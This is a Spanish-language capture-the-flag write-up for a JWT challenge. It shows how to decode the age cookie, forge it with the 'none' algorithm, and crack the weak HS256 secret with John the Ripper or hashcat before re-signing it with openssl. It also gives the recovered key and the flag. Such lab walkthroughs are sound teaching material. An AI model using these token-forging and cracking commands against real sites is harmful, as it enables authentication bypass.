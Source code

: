 <h1 align="center">
    🍺 JaggerWhiskyTequila 🍺
</h1>

## 💭 Concepto

Cuando se accede a la web, se pueden observar distintos tipos de bebida. Al intentar comprar una, nos redirige a la URL `/compra` donde nos aparece el siguiente mensaje:

> No tienes +18 años

Si comprobamos las cookies, encontraremos una con el nombre de `cliente` y el siguiente valor:

```
eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJlZGFkIjoxN30.Lq26ql5McZjRfR-2zsTv1Z9UbygMvbbaXP53-QfXO-s
```

Con un poco de práctica, es posible reconocer la estructura de la misma. Las dos primeras letras (`ey`) indican que el comienzo de cadena es el caracter `{` seguido de un espacio o unas comillas. Además, la cookie consta de tres partes delimitadas por puntos.

Por lo tanto, se puede deducir que la solución estará basada en vulnerabilidades conocidas de `JWT`.

> Una pista a mayores es el nombre del reto: **J**agger**W**hisky**T**equila (**JWT**)

## 📜 Teoría

Lo primero de todo es decodificar la cookie. Para ello podemos hacer uso de herramientas online, como [JWT.io](https://jwt.io/), o segmentar la cadena según el delimitador (en este caso, un punto), dado que JWT sigue el siguiente formato:

<h1 align="center">
    <img alt="JWT Format" src="../.img/jwt-format.webp" />
</h1>

En el **Header** se especifica el tipo de formato que se utiliza, así como el algoritmo a usar para cifrar/descifrar los datos.

En el caso del reto, la información obtenida es la siguiente:

```sh
echo -n "eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9" | base64 -d
# {"typ": "JWT","alg": "HS256"} 
```

> `HS256` indica que el **Payload** está cifrado usando una clave simétrica

Si hacemos lo mismo con el segundo fragmento, podemos obtener la información guardada actualmente en la cookie:

```sh
echo -n "eyJlZGFkIjoxN30" | base64 -d
# {"edad":17}
```

Como vimos en la página de `/compra`, el mensaje nos indicaba que no teníamos más de 18 años. Ya sólo queda buscar la manera de modificar el valor de la cookie para especificar una edad mayor.

## 💣 Explotación

Este reto se puede resolver de varias maneras.

---

```yml
Vulnerabilidad: Algoritmo None
```

Aunque hoy en día ya no es habitual encontrarse con este fallo, hay veces que las páginas permiten el uso del algoritmo `none` o no comprueban la **Signature**.


En el primer caso y con el fin de modificar el **Payload** satisfactoriamente, bastaría con cambiar el valor de `"alg": "HS256"` a `"alg": "none"`.

En el segundo escenario, se puede optar por borrar la **Signature**, aunque no sería necesario.

Podemos generar nuestro nuevo `JWT` usando el siguiente script de **bash**:

```sh
echo -n $(echo -n '{"typ":"JWT","alg":"none"}' | base64).$(echo -n '{"edad":18}' | base64). | tr -d "="
# eyJ0eXAiOiJKV1QiLCJhbGciOiJub25lIn0.eyJlZGFkIjoxOH0.
```

Ahora sólo queda reemplazarlo en la página web y recargar la página para obtener la `flag`.

---

```yml
Vulnerabilidad: Clave HS256 débil
```

Es posible que la clave usada para firmar el **Payload** no sea lo suficientemente fuerte, por lo que sería viable realizar un ataque de fuerza bruta para averiguarla.

La forma estándar de hacerlo es con programas como `JohnTheRipper` o `HashCat`.

Para ello, debemos guardar el valor de la cookie en un fichero:

```sh
echo -n "eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJlZGFkIjoxN30.Lq26ql5McZjRfR-2zsTv1Z9UbygMvbbaXP53-QfXO-s" > jwt.hash
```

Una vez guardado, podemos usar diccionarios como `rockyou.txt` para realizar el ataque:

```sh
# Usando JohnTheRipper
john jwt.hash --wordlist=/usr/share/wordlists/rockyou.txt --format=HMAC-SHA256

# Usando HashCat
hashcat -m 16500 jwt.hash /usr/share/wordlists/rockyou.txt
```

En ambos casos, nos dará la clave usada para firmar los datos: `alcoholic`.

Para editar el contenido, podemos hacer uso de herramientas online (como [JWT.io](https://jwt.io/)) o generarla mediante este script en `bash`:

```sh
token=`echo -n $(echo -n '{"typ":"JWT","alg":"HS256"}' | base64).$(echo -n '{"edad":18}' | base64) | tr -d "=" | tr '/+' '_-'`; sign=$(echo -n ${token} | openssl dgst -sha256 -hmac "alcoholic" -binary | base64 | tr -d "=" | tr '/+' '_-'); echo -n "${token}.${sign}"

# eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJlZGFkIjoxOH0.E17PNNNY9mUUNT4VJdKMlMilOP0hZc5ihlMBdar6cCM
```

Igual que antes, sólo queda reemplazar el nuevo token en la página y recargar para obtener la `flag`.

## 🏁 Flag

```
pumaCTF{JwT_4lc0h0l_n_h4nG0v3R}
```